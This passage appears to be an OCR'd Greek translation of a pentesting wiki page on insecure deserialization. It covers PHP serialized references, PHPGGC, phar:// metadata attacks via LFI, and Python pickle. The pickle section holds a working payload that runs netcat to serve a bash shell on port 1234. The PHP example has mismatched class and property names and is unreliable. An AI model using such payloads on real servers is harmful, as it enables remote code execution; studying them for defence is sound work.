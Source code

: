 {% content-ref url="php-deserialization-+-autoload-classes.md" %}
[php-deserialization-+-autoload-classes.md](php-deserialization-+-autoload-classes.md)
{% endcontent-ref %}

### Serializing Referenced Values

Αν για κάποιο λόγο θέλετε να σειριοποιήσετε μια τιμή ως **αναφορά σε άλλη τιμή που έχει σειριοποιηθεί** μπορείτε:
```php
<?php
class AClass {
public $param1;
public $param2;
}

$o = new WeirdGreeting;
$o->param1 =& $o->param22;
$o->param = "PARAM";
$ser=serialize($o);
```
### PHPGGC (ysoserial for PHP)

[**PHPGGC**](https://github.com/ambionics/phpggc) μπορεί να σας βοηθήσει να δημιουργήσετε payloads για να εκμεταλλευτείτε τις PHP deserializations.\
Σημειώστε ότι σε πολλές περιπτώσεις **δεν θα μπορείτε να βρείτε τρόπο να εκμεταλλευτείτε μια deserialization στον πηγαίο κώδικα** της εφαρμογής, αλλά μπορεί να μπορείτε να **εκμεταλλευτείτε τον κώδικα εξωτερικών PHP επεκτάσεων.**\
Έτσι, αν μπορείτε, ελέγξτε το `phpinfo()` του διακομιστή και **αναζητήστε στο διαδίκτυο** (ακόμα και στα **gadgets** του **PHPGGC**) κάποια πιθανά gadgets που θα μπορούσατε να εκμεταλλευτείτε.

### phar:// metadata deserialization

Αν έχετε βρει ένα LFI που απλώς διαβάζει το αρχείο και δεν εκτελεί τον php κώδικα μέσα σε αυτό, για παράδειγμα χρησιμοποιώντας συναρτήσεις όπως _**file\_get\_contents(), fopen(), file() ή file\_exists(), md5\_file(), filemtime() ή filesize()**_**.** Μπορείτε να προσπαθήσετε να εκμεταλλευτείτε μια **deserialization** που συμβαίνει όταν **διαβάζετε** ένα **αρχείο** χρησιμοποιώντας το **phar** πρωτόκολλο.\
Για περισσότερες πληροφορίες διαβάστε την παρακάτω ανάρτηση:

{% content-ref url="../file-inclusion/phar-deserialization.md" %}
[phar-deserialization.md](../file-inclusion/phar-deserialization.md)
{% endcontent-ref %}

## Python

### **Pickle**

Όταν το αντικείμενο αποσυμπιέζεται, η συνάρτηση _\_\_reduce\_\__ θα εκτελεστεί.\
Όταν εκμεταλλευτεί, ο διακομιστής μπορεί να επιστρέψει ένα σφάλμα.
```python
import pickle, os, base64
class P(object):
def __reduce__(self):
return (os.system,("netcat -c '/bin/bash -i' -l -p 1234 ",))
print(base64.b64encode(pickle.dumps(P())))
```
Πριν ελέγξετε την τεχνική παράκαμψης, δοκιμάστε να χρησιμοποιήσετε `print(base64.b64encode(pickle.dumps(P(),2)))` για να δημιουργήσετε ένα αντικείμενο που είναι συμβατό με python2 αν τρέχετε python3.
